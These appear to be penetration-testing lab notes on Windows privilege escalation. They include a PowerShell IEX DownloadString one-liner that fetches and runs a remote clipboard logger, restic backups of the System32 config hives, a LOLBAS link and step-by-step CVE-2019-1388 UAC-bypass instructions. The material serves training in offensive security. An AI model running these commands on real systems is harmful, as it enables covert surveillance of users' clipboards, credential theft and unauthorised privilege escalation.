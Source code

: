 ```powershell
PS C:\\htb> IEX(New-Object Net.WebClient).DownloadString('<https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1>')
PS C:\\htb> Invoke-ClipboardLogger
```

when ever a user copies something, we will get the result in our powershell session.

## **Roles and Services (Backup servers)**

`Restic` is a modern backup program that can back up files in Linux, BSD, Mac, and Windows.

In Restic we need to specify a directory to store the backup, lets create a backup directory.

* `PS C:\\htb> mkdir E:\\restic2`
* `restic.exe -r E:\\restic2 init` → initialize the directory

Then backup directory

```powershell
PS C:\\htb> $env:RESTIC_PASSWORD = 'Password'
PS C:\\htb> restic.exe -r E:\\restic2\\ backup C:\\SampleFolder
```

here we are backing up `samplefolder` to `restic2` folder.

If we want to back up a directory such as `C:\\Windows`, which has some files actively used by the operating system, we can use the option `--use-fs-snapshot` to create a VSS (Volume Shadow Copy) to perform the backup.

* `PS C:\\htb> restic.exe -r E:\\restic2\\ backup C:\\Windows\\System32\\config --use-fs-snapshot`

***

***

Lets check for the saved backups

* `PS C:\\htb> restic.exe -r E:\\restic2\\ snapshots`

we can restore the backup with id ;

* `PS C:\\htb> restic.exe -r E:\\restic2\\ restore 9971e881 --target C:\\Restore`

If we navigate to `C:\\Restore`, we will find the directory structure where the backup was taken. To get to the `SampleFolder` directory, we need to navigate to `C:\\Restore\\C\\SampleFolder`.

## **Miscellaneous Techniques**

[https://lolbas-project.github.io/](https://lolbas-project.github.io/) documents binaries, scripts, and libraries that can be used for "living off the land" techniques on Windows systems.

#### **CVE-2019-1388 Abuse UAC Windows Certificate Dialog**

```
1) find a program that can trigger the UAC prompt screen

2) select "Show more details"

3) select "Show information about the publisher's certificate"

4) click on the "Issued by" URL link it will prompt a browser interface.

5) wait for the site to be fully loaded & select "save as" to prompt a explorer window for "save as".

6) on the explorer window address path, enter the cmd.exe full path:
C:\\WINDOWS\\system32\\cmd.exe

7) now you'll have an escalated privileges command prompt.
```
